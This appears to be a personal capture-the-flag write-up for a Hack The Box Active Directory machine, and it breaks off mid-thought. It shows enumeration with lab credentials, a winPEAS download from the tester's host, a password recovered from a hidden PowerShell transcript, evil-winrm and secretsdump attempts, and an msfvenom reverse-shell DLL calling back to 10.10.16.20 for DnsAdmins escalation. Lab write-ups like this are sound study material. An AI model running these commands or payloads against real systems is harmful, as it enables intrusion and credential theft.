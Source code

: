 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

```
crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
```

So my intuition was right there is something hidden and i can smell it but don't know the command for it.
```
dir -Force
```

![[Pasted image 20240506070133.png]]

![[Pasted image 20240506070800.png]]

PS Transcripts seems fishy to meeeeeeeeeeeee 
And the interesting thing is that file is hidden again
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![[Pasted image 20240506071315.png]]

Let's peak into the file and see if we can get some thing interesting from it
User
```
ryan
```

Password
```
Serv3r4Admin4cc123!
```

![[Pasted image 20240506071656.png]]


Let's evil-winrm and see the group and what we can do with it and the privileges we have
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```
![[Pasted image 20240506071911.png]]

```
secretsdump.py MEGABANK.LOCAL/ryan:'Serv3r4Admin4cc123!'@10.10.10.169
```
It didn't worked

![[Pasted image 20240506072229.png]]

So the group that stands out is DnsAdmins
![[Pasted image 20240506072623.png]]

https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b

Reverse DLL
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o rev.dll LHOST=10.10.16.20 LPORT=9999
```
![[Pasted image 20240506081507.png]]

We have to use LOLbins
https://lolbas-project.github.io/

![[Pasted image 20240506081837.png]]

I think we have to host the fill remotely or i am doing something

